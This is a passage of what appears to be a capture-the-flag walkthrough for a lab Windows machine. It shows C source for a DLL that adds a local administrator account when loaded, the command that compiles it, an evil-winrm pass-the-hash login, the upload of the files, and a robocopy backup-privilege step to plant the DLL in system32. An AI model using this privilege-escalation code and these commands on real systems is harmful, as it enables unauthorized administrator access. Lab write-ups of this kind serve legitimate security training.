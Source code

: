 We can use the following simple DLL that creates a new user and adds it to the local administrator's group.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
	WinExec("C:\\Windows\\System32\\net.exe users snowscan Yolo1234! /add", 0);
	WinExec("C:\\Windows\\System32\\net.exe localgroup administrators snowscan /add", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		pwn();
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

Here's how we can compile the DLL directly from Linux.

```
x86_64-w64-mingw32-gcc -o windowscoredeviceinfo.dll pwn.c -shared
```

We'll create a temporary directory and upload the required files there.

```
evil-winrm -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup -i 10.10.10.192

mkdir c:\temp
mkdir c:\temp\system32
cd c:\temp\system32
upload windowscoredeviceinfo.dll
cd ..
upload UsoDllLoader.exe
```

Next, we'll use robocopy with the /b flag to copy the contents of system32 into c:\windows\system32. This will use the special backup operator's privilege to bypass the permission check and allow us to write the DLL.
